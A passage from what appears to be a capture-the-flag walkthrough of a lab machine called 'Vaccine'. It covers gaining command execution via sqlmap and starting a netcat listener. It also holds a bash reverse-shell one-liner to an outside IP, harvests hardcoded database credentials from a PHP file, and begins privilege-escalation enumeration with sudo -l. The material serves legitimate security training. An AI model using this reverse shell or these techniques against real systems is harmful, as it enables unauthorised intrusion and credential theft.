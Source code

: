 So now we have RCE through SQLMAP.

We can now `cat` the user flag inside `/var/lib/postgresql/11/main`

### Obtaining a reverse shell

```shell
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[18:22:23] [INFO] retrieved: 'postgres'
command standard output: 'postgres'
```

In order to get a reverse shell, for easier navigation, we will start a listener using `nc` and send it using the `SQLMAP` shell.

```shell
nc -nlvp 4444
```
```shell
bash -c 'bash -i >& /dev/tcp/10.10.14.67/4444 0>&1'
```

Once we have the reverse shell, we can try to `cat` the `dashboard.php` file in order to find more possible credentials or useful information.
We will see that it is making a connection to the local database using the user `postgres` and it's password.

```shell
<?php
	session_start();
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}
```

We have another username and password combination (__postgres::P@s5w0rd!__)

# Privilege Escalation

### Enumerating user privileges

One of the first things to always try, is to run the command `sudo -l` to check if the current user has any permission to execute binaries as the `root` user.

```shell
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
